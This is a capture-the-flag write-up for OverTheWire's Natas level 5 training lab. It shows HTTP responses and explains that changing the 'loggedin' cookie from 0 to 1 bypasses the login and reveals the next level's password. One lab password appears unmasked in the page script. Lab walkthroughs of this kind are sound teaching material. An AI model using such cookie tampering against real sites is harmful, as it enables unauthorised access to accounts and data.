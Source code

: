 # level 5

**Host**: http://natas5.natas.labs.overthewire.org
>natas5:0n35PkggAPm2zbEpOU802c**********

When you visit the site, you get the following message:

```
Access disallowed. You are not logged in.
```

### Solution:

You get following response:

```html
HTTP/1.1 200 OK
Date: Wed, 03 Sep 2025 16:46:09 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: loggedin=0
Vary: Accept-Encoding
Content-Length: 855
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
</head>
<body>
<h1>natas5</h1>
<div id="content">
Access disallowed. You are not logged in</div>
</body>
</html>
```

The interesting part of the response is the `Set-Cookie: loggedin=0` header. Just repeat your request and add the `Cookie: loggedin=1` header and grab the password for natas6 from the response.

```html
HTTP/1.1 200 OK
Date: Wed, 03 Sep 2025 16:51:09 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: loggedin=1
Vary: Accept-Encoding
Content-Length: 890
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "0n35PkggAPm2zbEpOU802c0x0Msn1ToK" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewa**********</div>
</body>
</html>
```